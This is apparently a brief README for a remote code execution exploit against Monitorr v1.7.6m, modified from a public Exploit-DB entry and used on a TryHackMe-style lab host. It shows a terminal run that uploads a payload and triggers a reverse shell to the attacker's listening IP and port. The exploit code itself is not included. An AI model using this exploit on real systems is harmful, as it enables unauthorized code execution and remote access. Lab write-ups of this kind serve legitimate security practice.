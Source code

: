 ### **Remote Code Execution monitorr v1.7.6m**

+ The code is modified from public exploit by storing user's cookies. 

```bash
$ python3 monitorr.py
[*] Example usage: 
        > url: https://monitorr.robyns-petshop.thm
        > local ip: 57.123.456.789
        > local port: 443
-------------------------
> url (include schema): https://monitorr.robyns-petshop.thm
> local ip: 10.4.1.61
> local port: 443
[+] Successfully upload payload
[+] Triggering reverse shell
[*] Should've got rev shell
```
<br>

+ Reference: [ https://www.exploit-db.com/exploits/48980 ]
